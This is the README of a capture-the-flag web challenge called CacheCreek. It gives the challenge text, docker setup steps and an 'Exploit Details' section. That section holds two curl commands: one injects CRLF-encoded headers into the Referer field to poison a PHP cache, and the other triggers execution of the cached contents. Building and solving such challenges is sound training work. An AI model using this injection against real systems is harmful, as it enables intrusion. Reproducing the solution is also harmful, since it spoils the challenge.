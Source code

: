 CacheCreek
---------

I wrote a new cache mechanism, it is pretty cool, can you please review it for me?

# Question Text

```
It is all in the challenge.

http://ctf.pwn.sg:8181
```

*Creator - quanyang (@quanyang)*

# Setup Guide

0. Install docker on the hosting system
1. Replace the flag in distribute/flag
2. Build the docker image with: `sh dockerbuild.sh`
3. Replace the port 1500 with your desired port in dockerrun.sh
4. Start the docker image: `sh dockerrun.sh`
5. Test the connectivity with netcat.

# Exploit Details

curl http://localhost:8180/cache.php\?test\=21422 -H 'Referer: example.com/index.php%0D%0AContent-Length%3A+90%0D%0AContent-Type: application/x-www-form-urlencoded%0D%0A%0D%0Aview=test&' -iv -H 'cookie: PHPSESSID=debugtest3;'

to perform cache poisoning

then 

curl http://localhost:8180/cache.php\?report\=debug -H 'Referer: example.com/index.php' -iv -H 'cookie: PHPSESSID=test3;'

to use the cache and execute the contents from the cache.